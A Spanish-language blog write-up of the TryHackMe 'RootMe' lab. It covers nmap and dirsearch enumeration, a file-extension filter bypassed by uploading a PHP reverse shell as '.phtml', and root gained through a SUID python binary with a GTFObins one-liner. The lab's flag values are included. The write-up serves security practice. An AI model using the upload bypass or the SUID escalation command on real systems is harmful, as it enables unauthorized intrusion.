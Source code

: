 ```yaml
---
layout: post
title: Tryhackme - Rootme
autor: S3cureroy
date: 2023-02-10
categories: [CTF, Tryhackme]
tags: [suid, reverse shell, nmap, python, dirsearch, misconfiguration]
---
```


Hoy traigo un *writeup* de una máquina muy sencilla, que permite seguir practicando la explotación web mediante el uso de la explotación de una mala configuración en un *CMS*, para posteriormente, usar técnicas de escalada de privilegios en entornos Linux, concretamente, la explotación de un binario con permisos SUID.

La máquina está categorizada como fácil, pero en el momento de encararla, no imaginaba que iba a ser tan sencilla.

Destacaría de esta máquina el filtrado de extensiones en la subida de la shell, el cual, como se verá más adelante, no permite subir ciertos ficheros, pero se evade de manera sencilla.

## Enumeración.

Se empieza mediante el uso de la herramienta ```nmap``` usando los parámetros para que muestre las versiones de los programas instalados, y además, se lancen los scripts más usados en entornos Web.

~~~bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-21 04:21 EDT
Nmap scan report for 10.10.6.35
Host is up (0.061s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4a:b9:16:08:84:c2:54:48:ba:5c:fd:3f:22:5f:22:14 (RSA)
|   256 a9:a6:86:e8:ec:96:c3:f0:03:cd:16:d5:49:73:d0:82 (ECDSA)
|_  256 22:f6:b5:a6:54:d9:78:7c:26:03:5a:95:f3:f9:df:cd (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HackIT - Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.13 seconds
~~~

### Servidor Web.

Al descubrir que se está exponiendo el puerto 80, y que además se trata del conocido servidor Web Apache, se decide enumerar recursos de la página mediante el uso de la herramienta ```dirsearch```.

~~~
04:27:05] Starting: 
[04:27:08] 403 -  275B  - /.htaccess-dev                              
[04:27:08] 403 -  275B  - /.htaccess-local
[04:27:08] 403 -  275B  - /.htaccess-marco
[04:27:08] 403 -  275B  - /.htaccess.old
[04:27:08] 403 -  275B  - /.htaccess.bak1
[04:27:08] 403 -  275B  - /.htaccess.sample
[04:27:08] 403 -  275B  - /.htaccess.save
[04:27:08] 403 -  275B  - /.htaccess.orig
[04:27:08] 403 -  275B  - /.htaccess.txt
[04:27:08] 403 -  275B  - /.htaccessOLD
[04:27:08] 403 -  275B  - /.htaccessBAK
[04:27:08] 403 -  275B  - /.htaccessOLD2
[04:27:08] 403 -  275B  - /.htpasswd-old
[04:27:08] 403 -  275B  - /.httr-oauth
[04:27:09] 403 -  275B  - /.php                                       
[04:27:11] 200 -  616B  - /
[04:27:24] 301 -  306B  - /css  ->  http://10.10.6.35/css/
[04:27:28] 200 -  616B  - /index.php
[04:27:28] 200 -  616B  - /index.php/login/
[04:27:29] 301 -  305B  - /js  ->  http://10.10.6.35/js/
[04:27:32] 301 -  308B  - /panel  ->  http://10.10.6.35/panel/
[04:27:32] 200 -  732B  - /panel/                         
[04:27:35] 403 -  275B  - /server-status
[04:27:35] 403 -  275B  - /server-status/
[04:27:39] 200 -  741B  - /uploads/
[04:27:39] 301 -  310B  - /uploads  ->  http://10.10.6.35/uploads/
                                                                                        
Task Completed
~~~

Se obtiene el código de respuesta 200 en el recurso ```/login```, al cual se accede. 

Dentro, solamente hay un título, sin posibilidad de hacer nada más, al menos aparentemente.

## Acceso inicial.

Dentro de ```/panel``` se pueden subir ficheros que se descubre, pueden ser vistos en el recurso ```/uploads```.

Se sube un fichero que contiene una shell reversa en lenguaje **php** con el nombre ```hola.phtml```. Esto es debido a que la web incorpora un sistema de protección basado en el filtrado de extensiones, y no se puede subir con la extensión del propio lenguaje.

Se abre un puerto con ```nc``` en la máquina atacante, y al abrir el fichero desde el navegador, se obtiene acceso a la máquina.  
![Acceso inicial][rootme1]

Una vez dentro, se obtiene la flag de usuario, alojada en ```/var/www/user.txt```.

~~~bash
cat /var/www/user.txt
THM{y0u_g0t_a_sh3ll}
~~~

## Escalada de privilegios.

Generalmente, se debe enumerar vectores de escalada de privilegios manualmente, sobre todo para aprender como explotar dichos vectores y para generar una metodología, pero en este caso, se transfiere mediante el módulo **SimpleHTTPServer** el script llamado LinEnum que automatiza esta tarea.

El script informa que el binario de python dispone del bit SUID que pueden ser explotados. Por tanto, se busca en la Web [GTFObins](https://gtfobins.github.io/gtfobins/python/) como.  
![Salida Lineum][rootme2]
![GTFObins][rootme3]

Se lanza el comando que indica la web GTFObins en la máquina víctima, después de poner a escuchar un puerto en la máquina atacante.

```python
python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
``` 

Entonces se obtiene una shell, que si se lanza un comando ```id``` se puede ver que el euid (*effective uid*) es root.

~~~bash
id
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
~~~

Se accede a la flag de root terminando la explotación de la máquina.

~~~bash
cat /root/root.txt
THM{pr1v1l3g3_3sc4l4t10n}
~~~

<a href="#top">Volver arriba</a>

[rootme1]: https://i.imgur.com/FBlxsxX.png
[rootme2]: https://i.imgur.com/F9EmKQw.png
[rootme3]: https://i.imgur.com/uQVCB1u.png


